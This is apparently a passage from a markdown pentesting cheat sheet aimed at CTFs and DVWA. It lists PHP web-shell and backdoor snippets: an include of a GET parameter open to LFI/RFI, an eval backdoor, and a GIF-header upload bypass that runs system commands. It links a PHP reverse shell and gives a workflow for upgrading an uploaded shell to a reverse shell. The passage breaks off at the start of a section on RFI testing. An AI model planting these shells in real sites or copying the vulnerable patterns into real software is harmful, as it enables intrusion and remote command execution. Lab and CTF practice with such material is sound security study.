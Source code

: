 ```php
<?php include($_GET['page']); ?>

```

➡ Classic **LFI/RFI vulnerable code**.

***

#### 8. **PHP Reverse Shell (PentestMonkey famous script)**

Longer version, but very useful in real pentests:

[PentestMonkey PHP Reverse Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

***

## ⚡ Bonus Tricks

* **Eval backdoor (dangerous)**:

```php
<?php eval($_GET['cmd']); ?>

```

Runs PHP code directly, not system commands.

Example: `?cmd=echo "Hello";`

* **Bypass file upload (GIF header trick)**:

```
GIF89a;
<?php system($_GET['cmd']); ?>

```

➡ Saves as `.gif`, but still executes if parsed as PHP.

***

📌 **Pro tip for CTFs/DVWA**:

If you can upload files → always try `phpinfo()` first (to know the environment), then drop a **command execution shell**, and finally upgrade it into a **reverse shell**.

***

***

## RCE TESTING

Whether `allow_url_include` is **ON** or **OFF** decides if you can do **Remote File Inclusion (RFI)** or not.

Here are the ways to check:

***
